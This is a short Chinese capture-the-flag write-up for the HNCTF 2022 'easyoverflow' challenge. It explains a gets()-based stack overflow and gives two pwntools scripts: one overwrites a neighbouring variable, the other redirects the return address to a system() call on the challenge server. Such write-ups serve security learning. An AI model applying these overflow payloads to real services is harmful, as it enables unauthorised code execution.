



# [HNCTF 2022 Week1]easyoverflow



这里发现只有一些基础的的保护

现在看一下ida反编译



发现读取的文件放在v4中，而读取用的是gets函数因此存在栈溢出



现在这里有两种方法

一

在栈结构中发现v5和v4是连在一起的因此可以想到可以覆盖v5的值为1

```python
from pwn import *

io = remote("node5.anna.nssctf.cn",22370)
offset = 0x30-4
payload = b'a'*offset+p64(1)
io.sendline(payload)
io.interactive()
```


二

通过栈溢出把返回值跳到system的位置

```python
from pwn import *

io = remote("node5.anna.nssctf.cn",28227)
offset = 0x30+8
payload = b'a'*offset+p64(0x0401220)
io.sendline(payload)
io.interactive()
```

